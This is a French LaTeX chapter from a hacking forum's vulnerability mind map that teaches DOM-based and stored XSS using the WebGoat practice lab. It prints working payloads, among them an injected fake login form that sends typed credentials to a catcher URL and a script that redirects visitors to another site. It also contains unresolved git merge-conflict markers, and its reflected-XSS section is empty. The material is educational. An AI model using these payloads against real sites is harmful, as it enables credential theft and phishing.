%%%
 % File:     xss.tex
 % Author:   Hackademics Forum <hackademicsforum6@gmail.com>
 % Project:  MindMap des vulnérabilités
 % Released: 03/08/2016
%%%

%!TeX root = main.tex
%!TeX encoding = UTF-8
%!TeX program = pdflatex
%!TeX spellcheck = fr_FR

%%%
 % Vulnérabilités XSS
%%%
\newpage
\section{Cross-Site Scripting (XSS)}\label{vulnerabilites:web:xss}

Le cross-site scripting (xss) est un type de faille web qui permet à une personne mal intentionnée d'injecter du code malveillant dans une page web. Ce code peut être de chaque type que le navigateur prend en charge (JavaScript, html etc..). Les attaques par cross-site scripting font partie des attaques web les plus utilisées par les hackers, elles permettent entre autres le vol de cookies, la suppression de données ou la redirection vers un site frauduleux dans le but de faire du hamçonnage.

\bigskip

\begin{flushleft}
Il existe trois types de failles XSS:
\end{flushleft}
\begin{itemize}
\item XSS LOCAL (DOM BASED) ou TYPE 0
\item XSS STOCKE (STORED) ou TYPE I
\item XSS REFLECHI (REFLECTED) ou TYPE II
\end{itemize}

\bigskip

\subsection{XSS local (DOM Based)}\label{vulnerabilites:web:xss:dom}

Le XSS LOCAL (DOM BASED) permet a un pirate de travailler sur la machine locale de la victime plutôt que sur son site web. Les failles XSS de TYPE 0 sont particulièrement présente dans le « web 2.0 » ou du code JavaScript est directement exécuté dans le navigateur de l'utilisateur.

\begin{flushleft}
Voici un exemple de l'exploitation de faille XSS de TYPE-0 pour afficher un simple popup avec un message. Pour rester dans la légalité j'utilise WEBGOAT pour illustrer cette injection.
\end{flushleft}

\bigskip

\begin{itemize}
\item <script>alert("XSS TYPE-0");</script>
\end{itemize}

\bigskip

\begin{flushleft}
En copiant ce code dans la barre de recherche et ensuite en cliquant sur search on utilise la faille XSS de TYPE-0 pour simplement afficher le message "XSS TYPE-0"
\end{flushleft}



\begin{center}
\caption{XSS TYPE-0}

\includegraphics[scale=0.3]{Web/assets/XSS0.png}
\end{center}

\bigskip

\begin{flushleft}
Un autre exemple de l'exploitation de faille XSS de TYPE-0 pour cette fois changer l'apparence de la page en ajoutant deux cases à remplir avec un identifiant et un mot de passe dans le but de voler ces informations.

\bigskip

\begin{itemize}
\item </form><script>function hack(){ XSSImage=new Image; XSSImage.src="http://localhost/WebGoat/catcher?PROPERTY=yes&user="+ document.phish.user.value + "&password=" + document.phish.pass.value + ""; alert("Si cela etait une vraie attaque , les informations suivantes auraient ete volees. User Name = " + document.phish.user.value + " Password = " + document.phish.pass.value);} </script><form name="phish"><br><br><HR><H3>This feature requires account login:</H3 ><br><br>Enter Username:<br><input type="text" name="user"><br>Enter Password:<br><input type="password" name = "pass"><br><input type="submit" name="login" value="login" onclick="hack()"></form><br><br><HR>
\end{itemize}

\bigskip

En copiant ce code dans la barre de recherche et ensuite en cliquant sur search on utilise la faille XSS de TYPE-0 pour cette fois-c faire un peu de phishing en faisant croire à la légitimité de la demande. Tout de suite on va entrer les informations demandées (pour l'exemple j'utilise <hackademics> comme identifiant et <123456> comme mot de passe) et cliquer sur login pour voire ce qu'il se passe
\end{flushleft}


\begin{center}
\caption{XSS TYPE-0}

\includegraphics[scale=0.3]{Web/assets/xss1.png}
\end{center}

\begin{flushleft}
Voilà j'ai simplement recrée un popup qui affiche en clair les informations (identifiant et mot de passe) qui ont été demandés. Un hacker en aurait profité pour noter les informations récoltées pour ensuite les utiliser a mauvais escient.
\end{flushleft}

\subsection{XSS stocké (Stored)}\label{vulnerabilites:web:xss:stored}

Le XSS STOCKE (STORED) est la faille XSS la plus dommageable. Les attaques de TYPE-1 impliquent qu'un pirate injecte un script qui sera stocké de façon permanente (par exemple dans une base de données). Un exemple assez classique de XSS de TYPE-1 est l'injection d'un script malveillant par un pirate dans un champ de commentaires sur un blog ou un post dans un forum.

\begin{flushleft}
Voici un exemple de l'exploitation de faille XSS de TYPE-1. Pour rester dans la légalité j'utilise WEBGOAT pour illustrer cette injection.
\end{flushleft}

\bigskip

\begin{itemize}
\item Hackademics
\item <script>alert("HACKADEMICS");</script>
\end{itemize}


<<<<<<< HEAD
=======

>>>>>>> 0a21faf6e74171c41cd76e2ef656ad6df779dce5
\begin{center}
\caption{XSS TYPE-1}

\includegraphics[scale=0.3]{Web/assets/xsst1-0.png}
\end{center}


\begin{flushleft}
En copiant ce texte dans le champ TITRE, le script dans le champ MESSAGE et  en cliquant sur SUBMIT on utilise la faille XSS de TYPE-1 pour afficher et stocker le tout dans site web. En cliquant sur ce message on exploitera cette faille. Voyons ce qui se passe.
\end{flushleft}


\begin{center}
\caption{XSS TYPE-1}

\includegraphics[scale=0.3]{Web/assets/xsst1-1.png}
\end{center}

\bigskip

\begin{flushleft}
On voit clairement dans la liste des messages qu'un message à été posté par Hackademics. Soyons curieux et cliquons dessus pour voire ce qui se passe.
\end{flushleft}


<<<<<<< HEAD
\begin{center}
\caption{XSS TYPE-1}

\includegraphics[scale=0.3]{Web/assets/xsst1-2.png}
\end{center}

\bigskip

\begin{flushleft}
On voit qu'en cliquant sur le message pour voire son contenu , le script malveillant est activé pour afficher un simple popup avec le message "HACKADEMICS"

\bigskip

Voyons maintenant un deuxième exemple ou on va exploiter une faille XSS de TYPE-1 cette fois on utilisera le code injecté pour faire une redirection. Pour l'exemple on va rediriger sur le forum  hackademics.fr, mais on peut très bien imaginer une redirection vers un site contrefait pour tenter de soutirer des informations confidentielles.
\end{flushleft}

\bigskip

\begin{itemize}
\item Connectez-Vous
\item <script>document.location.href="http://www.hackademics.fr"</script>
\end{itemize}


=======
>>>>>>> 0a21faf6e74171c41cd76e2ef656ad6df779dce5
\begin{center}
\caption{XSS TYPE-1}

\includegraphics[scale=0.3]{Web/assets/xsst100.png}
\end{center}

<<<<<<< HEAD
\bigskip

\begin{flushleft}
Nous allons créer un nouveau post ou sera injecté notre nouveau code. Le code injecté grâce a cette faille XSS STOCKE crée une redirection vers le forum « hackademics.fr »
\end{flushleft}


\begin{center}
\caption{XSS TYPE-1}

\includegraphics[scale=0.3]{Web/assets/xsst101.png}
\end{center}

\bigskip

\begin{flushleft}
Quand on clique sur ce post on sera redirigé vers l’url qui a été entré pendant l’injection de code, donc ici notre forum préféré.
\end{flushleft}

\begin{center}
\caption{XSS TYPE-1}

\includegraphics[scale=0.3]{Web/assets/xssha.png}
\end{center}

\bigskip
=======
>>>>>>> 0a21faf6e74171c41cd76e2ef656ad6df779dce5

\subsection{XSS réfléchi (Reflected)}\label{vulnerabilites:web:xss:reflected}

...

\endinput
